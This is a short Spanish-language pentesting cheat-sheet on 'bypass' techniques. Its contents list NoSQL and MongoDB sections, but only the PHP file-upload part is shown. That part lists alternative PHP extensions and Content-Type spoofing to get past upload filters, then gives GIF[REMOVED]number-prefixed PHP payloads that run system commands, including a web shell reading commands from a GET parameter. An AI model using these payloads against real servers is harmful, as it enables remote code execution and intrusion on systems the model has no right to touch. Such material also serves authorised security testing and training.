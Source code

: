 # Tipos de Bypass

> Conoce algunos tipos de bypass para difente proposito.

## Summary

* [Php](#php)
* [Exploit](#exploits)
  * [Authentication Bypass](#authentication-bypass)
  * [Extract length information](#extract-length-information)
  * [Extract data information](#extract-data-information)
* [Blind NoSQL](#blind-nosql)
  * [POST with JSON body](#post-with-json-body)
  * [POST with urlencoded body](#post-with-urlencoded-body)
  * [GET](#get)
* [MongoDB Payloads](#mongodb-payloads)
* [References](#references)

## Php

### subida de archivo

en ocaciones la web no nos permite subir directamente un archivo con extensión `.php` , pero quien sabe las politicas que
tenga implementada ese servidor, existen algunas extensiones que pueden ser de utilidad

- php
- php3
- php4
- php5
- pht
- phtml

### Content Type

otra forma de burlar la restricción de subida de archivos, es cambiando el `Content-Type`

- Content-Type: application/x-php
- Content-Type: image/jpg


### Magic Number

```php
GIF8;
system("whoami");
```

```php
GIF8;
shell_exec("whoami");
```

```php
GIF8;
echo passthru("whoami");
```

```php
GIF8;
$command=$_GET['cmd']; 
echo `$command`;
```
